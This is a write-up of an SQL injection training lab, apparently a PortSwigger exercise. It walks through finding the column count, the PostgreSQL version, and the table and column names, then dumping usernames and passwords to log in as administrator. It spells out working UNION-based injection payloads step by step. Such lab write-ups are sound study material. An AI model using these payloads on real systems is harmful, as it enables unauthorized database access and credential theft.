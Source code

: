 # Lab 9 - **SQL injection attack, listing the database contents on non-Oracle databases**

**Status**: Solved on August 2, 2023

**Objective**: Obtain the username and password of all users, and the log in as the `administrator` user.

## Solving Process

- The number of columns was found to be 2, by using this payload: `' order by 2 --` Since it’s the highest column number that didn’t throw an internal server error.
- The database version was retrieved with this payload: `' UNION SELECT version(),NULL --`. The right query for the version was found by trying the available options until a 200 OK response was thrown.
  - Response: `PostgreSQL 12.15 (Ubuntu 12.15-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`
- By searching on Google for the available columns in `information_schema.tables`, it was found that a `table_name` column exists, which can be used to check which tables in the database may hold user information.
  - This payload was used to output the entries stored in `table_names`: `' UNION SELECT table_name,NULL FROM information_schema.tables --`
- After checking the outputted table names, the following may hold users’ information:
  - `pg_user`
  - `users_aifmth`
- The column names for those tables were outputted by using the following payload (built with the help of the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet): 
  - `' UNION SELECT column_name,NULL FROM information_schema.columns where table_name = 'users_aifmth' --`
  - The table that holds the most interesting column names is `users_aifmth`, which are: `username_wopbqk` and `password_youquw`
- Finally, the users & their passwords where gathered by quering the `users_aifmth` table with this payload: `' UNION SELECT username_wopbqk,password_youquw FROM users_aifmth --`
  - And the administrator credentials were rendered in the page’s html
  - Username: `administrator`. Password: `fb17rmxxk876i7vmaqf2`

